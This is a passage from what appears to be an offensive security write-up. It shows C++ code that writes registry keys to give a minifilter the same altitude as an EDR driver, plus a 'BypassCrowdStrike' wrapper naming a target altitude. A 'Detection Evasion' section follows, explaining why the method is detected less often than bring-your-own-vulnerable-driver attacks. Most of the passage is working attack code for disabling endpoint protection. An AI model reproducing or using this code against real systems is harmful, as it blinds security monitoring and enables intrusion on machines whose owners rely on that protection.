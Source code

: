 ```cpp
        (DWORD)((wcslen(wszGroup) + 1) * sizeof(WCHAR)));

    RegCloseKey(hServiceKey);
    hServiceKey = NULL;

    // Create instance key with stolen altitude
    lResult = RegCreateKeyExW(
        HKEY_LOCAL_MACHINE,
        wszInstancePath,
        0, NULL,
        REG_OPTION_NON_VOLATILE,
        KEY_WRITE,
        NULL,
        &hInstanceKey,
        NULL
    );

    if (lResult != ERROR_SUCCESS) goto cleanup;

    // Set altitude (this causes collision with target EDR)
    RegSetValueExW(hInstanceKey, L"Altitude", 0, REG_SZ,
        (BYTE*)wszTargetAltitude,
        (DWORD)((wcslen(wszTargetAltitude) + 1) * sizeof(WCHAR)));

    DWORD dwFlags = 0;
    RegSetValueExW(hInstanceKey, L"Flags", 0, REG_DWORD, (BYTE*)&dwFlags, sizeof(DWORD));

    bSuccess = TRUE;

cleanup:
    if (hServiceKey) RegCloseKey(hServiceKey);
    if (hInstanceKey) RegCloseKey(hInstanceKey);

    return bSuccess;
}

// Example: Bypass CrowdStrike Falcon
BOOL BypassCrowdStrike() {
    return PoisonMiniFilterAltitude(L"LegitWindowsFilter", L"385200");
}
```

## Detection Evasion

### Why This Works (30-40% Detection vs 60-70% for BYOVD)

**Traditional BYOVD Indicators:**
- Vulnerable driver file on disk (hash-based detection)
- Driver loading events (Sysmon Event ID 6)
- Kernel-mode memory writes (PatchGuard violations)
- Known vulnerable driver signatures

